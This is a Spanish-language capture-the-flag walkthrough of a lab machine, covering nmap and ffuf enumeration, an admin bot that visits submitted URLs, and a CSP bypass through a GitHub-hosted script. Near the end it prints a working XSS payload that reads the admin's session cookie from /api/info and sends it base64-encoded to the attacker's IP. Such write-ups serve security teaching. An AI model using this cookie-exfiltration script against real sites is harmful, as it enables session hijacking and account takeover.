

<p align="center">
  
</p>

<div class="notice" style="border-left: 4px solid #ff4444; background-color: #2a1515; color: #ffdddd;">
  <strong style="color: #ff4444;">[+] DISCLAIMER</strong><br><br>
  Todo el contenido, información, ejemplos o conocimientos presentados en este sitio tienen <strong>exclusivamente fines educativos, formativos y éticos.</strong><br><br>
  El objetivo es promover el aprendizaje y la comprensión responsable de los conceptos explicados. <strong>No se pretende fomentar, facilitar ni promover actividades ilegales, dañinas o no autorizadas.</strong>
</div>

# Enumeración Inicial

Vamos a empezar lanzando trazas ICMP con la máquina víctima para ver si tenemos conectividad.

```sh
❯ ping -c2 192.168.91.227
PING 192.168.91.227 (192.168.91.227) 56(84) bytes of data.
64 bytes from 192.168.91.227: icmp_seq=1 ttl=64 time=0.613 ms
64 bytes from 192.168.91.227: icmp_seq=2 ttl=64 time=0.332 ms

--- 192.168.91.227 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1006ms
rtt min/avg/max/mdev = 0.332/0.472/0.613/0.140 ms
```

Vemos que efectivamente tenemos conectividad, basándonos en el ttl aunque sea manipulable sabemos que estamos ante una máquina con SO Linux. Ahora vamos a seguir con un `escaneo de red` para enumerar puertos abiertos.

```sh
❯ nmap -p- --open -sS --min-rate 5000 -n -Pn 192.168.91.227 -oG info_ports1
```


```sh
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

Ahora como segundo paso vamos a enumerar `versiones` y `servicios` de dichos puertos.

```sh
❯ nmap -p22,80,443 -sCV 192.168.91.227
Starting Nmap 7.95 ( https://nmap.org ) at 2026-11-22 12:50 CET
Nmap scan report for 192.168.91.227
Host is up (0.00034s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 ae:f7:30:5e:e8:28:bb:0e:cd:8e:5e:9c:33:f0:0a:cd (ECDSA)
|_  256 04:50:bf:6f:21:23:ba:3a:c0:d2:89:d3:19:60:b1:03 (ED25519)
80/tcp  open  http     nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Welcome to nginx!
443/tcp open  ssl/http nginx 1.22.1
| ssl-cert: Subject: commonName=guitjapeo.thl/organizationName=Company/stateOrProvinceName=State/countryName=US
| Not valid before: 2024-09-21T01:00:07
|_Not valid after:  2025-09-21T01:00:07
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.22.1
|_http-title: Animaci\xC3\xB3n Personalizada
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
MAC Address: 00:0C:29:E2:D5:CD (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Encontramos una web con el dominio `guitjapeo.thl`, lo añadimos a `/etc/hosts` para poder resolverlo e accedemos, el virtualhost default y los virtualhost en el puerto 80 nos redireccionan a https://guitjapeo.thl en el puerto 443 con un certificado auto-firmado.

```sh
❯ sudo echo '192.168.91.227 guitjapeo.thl' | sudo tee -a /etc/hosts
```

# Enumeración Web

En la página principal de primeras no encontramos nada de lo que poder abusar así que lo siguiente que haremos será hacer `fuzzing web` para buscar posibles rutas o directorios de los que poder abusar.

```sh
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u "https://guitjapeo.thl/FUZZ" -e .php,.html,.txt,.md,.sh -fs 1110

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://guitjapeo.thl/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Extensions       : .php .html .txt .md .sh 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1110
________________________________________________

login                   [Status: 200, Size: 808, Words: 120, Lines: 27, Duration: 64ms]
register                [Status: 200, Size: 795, Words: 118, Lines: 29, Duration: 59ms]
css                     [Status: 301, Size: 153, Words: 6, Lines: 11, Duration: 30ms]
Login                   [Status: 200, Size: 808, Words: 120, Lines: 27, Duration: 27ms]
js                      [Status: 301, Size: 152, Words: 6, Lines: 11, Duration: 24ms]
messages                [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 27ms]
logout                  [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 24ms]
Register                [Status: 200, Size: 795, Words: 118, Lines: 29, Duration: 28ms]
Logout                  [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 24ms]
Messages                [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 24ms]
```

Ahora podemos entrar en `https://guitjapeo.thl/register` y crear una cuenta. Después nos redirige a `login` nos logueamos y una vez hecho eso vemos un panel en el que podemos mandar mensajes a un administrador.

Es una API donde se envían los mensajes, podemos hacer fuerza bruta a partir de esa ruta para ver si encontramos algún endpoint que merezca la pena. Es decir fuzzing para de endpoints de esta API.

```sh
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u "https://guitjapeo.thl/api/FUZZ" -e .php,.html,.txt,.md,.sh -fs 1110

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://guitjapeo.thl/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Extensions       : .php .html .txt .md .sh 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1110
________________________________________________

info                    [Status: 200, Size: 207, Words: 5, Lines: 1, Duration: 27ms]
users                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 27ms]
messages                [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 33ms]
Info                    [Status: 200, Size: 207, Words: 5, Lines: 1, Duration: 28ms]
Users                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 25ms]
```

Como mucho tenemos el info que nos devuelve los headers para ir recopilando información.

```sh
❯ curl -k https://guitjapeo.thl/api/info | jq

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   179 100   179   0     0 25571     0  --:--:-- --:--:-- --:--:-- 29833
{
  "host": "guitjapeo.thl",
  "x-real-ip": "192.168.91.191",
  "x-forwarded-for": "192.168.91.191",
  "x-forwarded-proto": "https",
  "connection": "close",
  "user-agent": "curl/8.17.0",
  "accept": "*/*"
}
```

El formulario de mensajes pide 2 cosas para mandar a `Administrador` un mensaje y una url. Podemos hacer una comprobación de pasarle nuestra IP como URL y montarnos un servidor con Python del lado de atacante.

```sh
Mensaje: Test wvverez
URL: http://192.168.91.191
```

Y de el otro lado veremos lo siguiente.

```sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.91.227 - - [22/Nov/2026 15:44:22] "GET / HTTP/1.1" 200 -
192.168.91.227 - - [22/Nov/2026 15:44:22] code 404, message File not found
192.168.91.227 - - [22/Nov/2026 15:44:22] "GET /favicon.ico HTTP/1.1" 404 -
192.168.91.227 - - [22/Nov/2026 15:44:39] "GET / HTTP/1.1" 200 -
192.168.91.227 - - [22/Nov/2026 15:44:39] code 404, message File not found
192.168.91.227 - - [22/Nov/2026 15:44:39] "GET /favicon.ico HTTP/1.1" 404 -
192.168.91.227 - - [22/Nov/2026 15:44:56] "GET / HTTP/1.1" 200 -
192.168.91.227 - - [22/Nov/2026 15:44:56] code 404, message File not found
192.168.91.227 - - [22/Nov/2026 15:44:56] "GET /favicon.ico HTTP/1.1" 404 -
```

Con esto confirmamos que el admin entra a la URL. Ahora podríamos hacer un cookie hijacking abusando de un XSS pero la cookie tiene la flag Http Only. Así que no podremos robar cookie. Usando Burpsuite como MiTM para interceptar estas peticiones HTTP vemos que pasa la petición a la ruta `/api/messages` esto puede ser interesante a tener en cuenta. Y vemos que en `/api/info` tenemos la cookie proporcionada.

```sh
{"host":"guitjapeo.thl","x-real-ip":"192.168.91.191","x-forwarded-for":"192.168.91.191","x-forwarded-proto":"https","connection":"close","user-agent":"Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8","accept-language":"en-US,en;q=0.5","accept-encoding":"gzip, deflate, br, zstd","cookie":"connect.sid=s%3At6UB4mISs_-DxPoOJscFdLYyUic3kGX-.LZTpt22Qv7ptTQsQsnsxvgZ7K8tiqhmiNt4DhZCwGAc","upgrade-insecure-requests":"1","sec-fetch-dest":"document","sec-fetch-mode":"navigate","sec-fetch-site":"none","sec-fetch-user":"?1","priority":"u=0, i"}
```

# XSS (Cross Site Scripting)

Con lo cual ya podemos tener algo de donde poder sacar la cookie de Admin nos falta buscar algo para poder explotarlo. En la página principal veíamos un campo que pedía introducir datos, ese campo es vulnerable a XSS (Cross-Site Scripting).

Pero tiene configuradas una cabeceras de Content Security Policy (CSP) para evitar estos ataques.

```sh
Content-Security-Policy: default-src 'self' 'unsafe-inline';script-src 'self' https://cdn.jsdelivr.net;style-src 'self' https://fonts.googleapis.com;font-src 'self' https://fonts.gstatic.com;img-src 'self';object-src 'none';frame-src 'none';connect-src 'self';upgrade-insecure-requests;base-uri 'self';form-action 'self';frame-ancestors 'self';script-src-attr 'none'
```

Ahora tenemos que probar si podemos robar la cookie, al solo permitir lo que vimos antes tenemos que crear una cuenta de Github, creamos un repositorio publico, y vamos a crear un archivo con JavaScript para hacer una petición por GET a `https://guitjapeo.thl/api/info` y esperamos que el server mande el JSON que lleva la cookie una vez llegue la respuesta nos la pasamos a nuestro servidor encodeada en `base64`.

```sh
var req = new XMLHttpRequest();
req.onload=reqListener;
var url="https://guitjapeo.thl/api/info";
req.withCredentials=true;
req.open("GET",url,false);
req.send();
function reqListener() {
    var req2=new XMLHttpRequest();
    const sess=JSON.parse(this.responseText).cookie;
    location.href="http://192.168.91.191/?data="+btoa(sess);
};
```

De momento vamos a montarmos un servidor HTTP con python3


